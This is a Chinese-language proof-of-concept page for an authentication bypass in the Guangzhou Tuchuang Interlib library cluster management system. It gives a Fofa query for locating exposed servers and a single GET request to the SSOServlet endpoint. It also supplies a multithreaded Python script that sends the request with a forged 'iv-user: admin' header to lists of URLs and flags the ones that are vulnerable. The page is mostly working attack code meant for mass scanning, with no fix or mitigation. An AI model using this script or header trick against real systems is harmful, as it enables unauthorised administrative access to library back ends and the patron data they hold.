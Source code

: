 # 广州图创图书馆集群管理系统存在未授权访问


## 广州图创图书馆集群管理系统存在未授权访问
广州图创图书馆集群管理系统是一款为图书馆设计的综合性管理软件。它能够实现对图书、读者、借阅、归还等方面的管理，同时支持各类图书馆的联合管理，提高了馆藏利用率和服务效率。此外，该系统还具有自动化预约提醒、在线预约、自助借还、智能查询等功能，让读者能够更加便捷地使用图书馆资源。该系统采用分布式架构，具有安全可靠的特点，可以根据不同图书馆的需求进行配置，提供优质的服务。该系统的实现，极大地提高了图书馆的管理效率，为读者提供了更好的服务体验。
广州图创计算机软件开发有限公司图书馆集群管理系统存在逻辑绕过，攻击者可通过此漏洞登录后台。

## Fofa
```
body="广州图创计算机软件开发有限公司"
```

## poc
```
GET /interlib/common/SSOServlet? HTTP/1.1
```

## 批量检测脚本
```python
import argparse
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor
from urllib3.exceptions import InsecureRequestWarning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Suppress only the single InsecureRequestWarning from urllib3 needed for HTTPS
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def send_request(url):
    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'iv-user': 'admin',
        'Connection': 'close'
    }
    try:
        response = requests.get(url + '/interlib/common/SSOServlet?', headers=headers, verify=False)
        if response.status_code == 200:
            print(f'{url} 存在逻辑绕过漏洞.')
        else:
            print(f'{url} no.')
    except requests.RequestException as e:
        print(f'Error scanning {url}: {e}')

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='Single URL to scan')
    parser.add_argument('-r', '--readfile', help='File containing list of URLs to scan')
    args = parser.parse_args()

    urls = []

    if args.url:
        urls.append(args.url)

    if args.readfile:
        with open(args.readfile, 'r') as file:
            urls.extend([line.strip() for line in file.readlines()])

    with ThreadPoolExecutor(max_workers=15) as executor:
        executor.map(send_request, urls)

if __name__ == "__main__":
    main()

```

